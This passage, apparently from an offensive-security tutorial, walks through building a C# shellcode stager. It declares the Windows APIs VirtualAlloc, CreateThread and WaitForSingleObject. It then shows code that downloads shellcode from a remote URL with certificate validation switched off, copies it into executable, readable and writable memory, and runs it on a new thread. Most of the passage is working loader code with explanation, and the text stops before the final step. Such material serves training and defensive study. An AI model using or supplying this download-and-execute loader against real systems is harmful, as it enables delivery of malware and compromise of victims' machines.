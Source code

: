 ```
//https://docs.microsoft.com/en-us/windows/desktop/api/memoryapi/nf-memoryapi-virtualalloc 
[DllImport("kernel32")]
private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr, UInt32 size, UInt32 flAllocationType, UInt32 flProtect);

//https://docs.microsoft.com/en-us/windows/desktop/api/processthreadsapi/nf-processthreadsapi-createthread
[DllImport("kernel32")]
private static extern IntPtr CreateThread(UInt32 lpThreadAttributes, UInt32 dwStackSize, UInt32 lpStartAddress, IntPtr param, UInt32 dwCreationFlags, ref UInt32 lpThreadId);

//https://docs.microsoft.com/en-us/windows/desktop/api/synchapi/nf-synchapi-waitforsingleobject
[DllImport("kernel32")]
private static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);
```

The most significant part of our code will be in the `Stager()` function, where the stager logic will be implemented. The Stager function will receive a URL from where the shellcode to be executed will be downloaded.


The first part of the `Stager()` function will create a new `WebClient()` object that allows us to download the shellcode using web requests. Before making the actual request, we will overwrite the `ServerCertificateValidationCallback` method in charge of validating SSL certificates when using HTTPS requests so that the WebClient doesn't complain about self-signed or invalid certificates, which we will be using in the web server hosting the payloads. After that, we will call the `DownloadData()` method to download the shellcode from the given URL and store it into the `shellcode` variable:

```
WebClient wc = new WebClient();
ServicePointManager.ServerCertificateValidationCallback = delegate { return true; };
ServicePointManager.SecurityProtocol = SecurityProtocolType.Tls12;

byte[] shellcode = wc.DownloadData(url);
```

Once our shellcode is downloaded and available in the `shellcode` variable, we'll need to copy it into executable memory before actually running it. We use `VirtualAlloc()` to request a memory block from the operating system. Notice that we request enough memory to allocate `shellcode.Length` bytes, and set the `PAGE_EXECUTE_READWRITE` flag, making the assigned memory executable, readable and writable. Once our executable memory block is reserved and assigned to the `codeAddr` variable, we use `Marshal.Copy()` to copy the contents of the `shellcode` variable in the `codeAddr` variable.

```
UInt32 codeAddr = VirtualAlloc(0, (UInt32)shellcode.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
Marshal.Copy(shellcode, 0, (IntPtr)(codeAddr), shellcode.Length);
```

Now that we have a copy of the shellcode allocated in a block of executable memory, we use the `CreateThread()` function to spawn a new thread on the current process that will execute our shellcode. The third parameter passed to CreateThread points to `codeAddr`, where our shellcode is stored, so that when the thread starts, it runs the contents of our shellcode as if it were a regular function. The fifth parameter is set to 0, meaning the thread will start immediately.

Once the thread has been created, we will call the `WaitForSingleObject()` function to instruct our current program that it has to wait for the thread execution to finish before continuing. This prevents our program from closing before the shellcode thread gets a chance to execute:
